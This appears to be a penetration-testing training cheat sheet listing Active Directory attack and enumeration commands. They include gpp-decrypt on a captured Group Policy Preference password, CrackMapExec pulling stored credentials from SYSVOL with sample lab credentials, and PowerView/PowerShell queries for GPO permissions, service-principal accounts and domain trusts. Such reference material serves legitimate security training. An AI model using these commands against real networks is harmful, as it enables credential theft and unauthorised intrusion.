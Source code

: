 Group Policy Enumeration & Attacks

`gpp-decrypt VPe/o9YRyz2cksnYRbNeQj35w9KxQ5ttbvtRaAVqxaE`

    Tool used to decrypt a captured `group policy preference password` from a Linux-based host.

`crackmapexec smb -L | grep gpp`

    Locates and retrieves a `group policy preference password` using `CrackMapExec`, the filters the output using `grep`. Peformed from a Linux-based host.

`crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin`

    Locates and retrieves any credentials stored in the `SYSVOL` share of a Windows target using `CrackMapExec` from a Linux-based host.

`Get-DomainGPO | select displayname`

    PowerView tool used to enumerate GPO names in a target Windows domain from a Windows-based host.

`Get-GPO -All | Select DisplayName`

    PowerShell cmd-let used to enumerate GPO names. Performed from a Windows-based host.

`$sid=Convert-NameToSid "Domain Users"`

    Creates a variable called `$sid` that is set equal to the `Convert-NameToSid` tool and specifies the group account `Domain Users`. Performed from a Windows-based host.

`Get-DomainGPO | Get-ObjectAcl | ?{$_.SecurityIdentifier -eq $sid`

    PowerView tool that is used to check if the `Domain Users` (`eq $sid`) group has any rights over one or more GPOs. Performed from a Windows-based host.

`Get-GPO -Guid 7CA9C789-14CE-46E3-A722-83F4097AF532`

    PowerShell cmd-let used to display the name of a GPO given a `GUID`. Performed from a Windows-based host.

Internal Enumeration

`Get-Module`

    PowerShell cmd-let used to list all available modules, their version and command options from a Windows-based host.

`Import-Module ActiveDirectory`

    Loads the `Active Directory` PowerShell module from a Windows-based host.

`Get-ADDomain`

    PowerShell cmd-let used to gather Windows domain information from a Windows-based host.

`Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName`

    PowerShell cmd-let used to enumerate user accounts on a target Windows domain and filter by `ServicePrincipalName`. Performed from a Windows-based host.

`Get-ADTrust -Filter *`

    PowerShell cmd-let used to enumerate any trust relationships in a target Windows domain and filters by any (`-Filter *`). Performed from a Windows-based host.
